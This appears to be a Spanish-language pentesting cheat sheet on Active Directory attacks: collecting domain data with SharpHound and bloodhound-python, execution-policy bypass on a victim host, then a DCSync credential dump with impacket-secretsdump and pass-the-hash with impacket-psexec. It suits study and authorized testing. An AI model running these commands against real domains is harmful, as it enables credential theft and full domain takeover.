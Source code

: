 # BloodHound 

Tags: #AD #Powershell #Windows #Enumeracion 

Bloodhound es una app en JavaScript la cual puede identificar fácilmente ataques altamente complejo que de otro modo seria imposible identificar ademas puede identificar grupos con permisos excesivos. Los defensores pueden usar Bloohound para identificar y eliminar esas mismas rutas de ataque. 

```bash 
# Descargamos la utilidad en nuestra maquina de atacante para despues pasar el archivo a la maquina victima que esta utilizando PowerShell

❯ wget https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1 
```

```powershell 
# En la maquina victima con PS. Hacemos lo siguiente para la recoleccion de data

❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 

# Enumeracion 
❯ . .\SharpHound.ps1                         # Importamos el modulo 
❯ Import-Module .\SharpHound.ps1             # Otra forma de importar el modulo  

❯ Invoke-Bloodhound -CollectionMethod All    # Utilizamnos la funcion 'Invoke' para crear el archivo  '2024_bloodhound.zip' el cual usaremos en el GUI de la herramienta de Boolhound
```

## BloodHound en Kali 

```bash 
# Abrirmos la herramienta de Boodhound y cargamos el archivo '2024_bloodhound.zip'

❯ apt install neo4j bloodhound          # Instalar la herramienta en Kali 
❯ update-alternatives --config java     # Ver las versiones de Java y cual se esta utilizando (Se debe usar la version 11)

❯ neo4j console &> /dev/null & disown   # Iniciamos el servicio en el puerto local 7474 y lo independizamos
	# Nota: Si es la primera vez que lo usamos, abrimos la web 'localhost:7474' y agregamos las credenciales 'neo4j:neo4j', despues, agregamos una passwd nueva y asi podremos conectarnos al 'Bloodhound'

❯ bloodhound &> /dev/null & disown      # Abrimos el 'Bloodhound' para usar el GUI y cargar el archivo .ZIP
```

```bash 
# Otra forma de subir data a la plataforma de Bloodhound

❯ bloodhound-python -d Domain.local -u User -p Password -ns IP_DC -c all   # Ejecutamos para recopilar la data y asi poder subir el archivo a la plataforma de Bloodhound

Nota: Importamos todos los archivos que fueron generados en formato Json
```

## Ataques 'DCSync'

```bash 
# Si encontramos en 'Bloodhound' un usuario que tiene un 'GetChangesAll' sobre el dominio podremos hacer un 'DCSync attack' para obtener el hash del usuario 'Administrador' y por lo tanto efectuar un 'Pass-The-Hash'

❯ impacket-secretsdump <Domain/User@IP>    # Hacemos un ataque 'DCSync', debemos de colocar la passwd del usuario 
❯ impacket-psexec <Domain/Administrator@IP> cmd.exe -hashes <:hash>   # Utilizamos 'psexec' para obtener una consola interactiva autenticandonos como el usuario 'Administrator' y colocando su hash para hacer 'Pass-The-Hash'    
```